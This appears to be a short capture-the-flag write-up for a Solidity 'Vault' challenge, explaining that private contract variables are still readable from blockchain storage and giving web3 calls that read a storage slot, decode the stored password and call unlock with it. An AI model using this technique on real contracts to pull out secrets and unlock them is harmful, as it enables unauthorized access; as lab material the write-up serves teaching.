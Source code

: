# Requirements

- Read private variable.

# Attack explanation

State is stored in a deterministical manner. You can define variables to be private, preventing other contracts from modifiying them but not from reading them if they make a little twist calculating storage slots.

# Attack function

We could solve the challenge by just using web3 lib:

```
await web3.eth.getStorageAt(instance, 1); // '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29"); // 'A very strong secret password :)'
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29");
```
